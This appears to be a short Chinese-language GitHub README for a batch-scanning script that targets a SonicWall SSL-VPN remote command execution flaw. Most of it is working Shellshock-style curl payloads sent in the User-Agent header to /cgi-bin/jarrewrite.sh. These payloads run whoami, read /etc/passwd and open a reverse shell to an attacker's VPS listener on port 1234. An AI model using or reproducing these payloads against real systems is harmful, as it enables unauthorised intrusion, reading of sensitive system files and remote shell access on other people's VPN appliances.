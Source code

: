 # SonicWallSSL-VPN_RCE
一个简单的SonicWallSSL-VPN远程命令执行批量验证脚本
脚本写得比较简单，主要是对于批量url检测比较实用，单个url检测直接在命令行检测即可，

比如：

命令执行：

curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

反弹shell：

VPS nc监听1234端口，

然后

curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
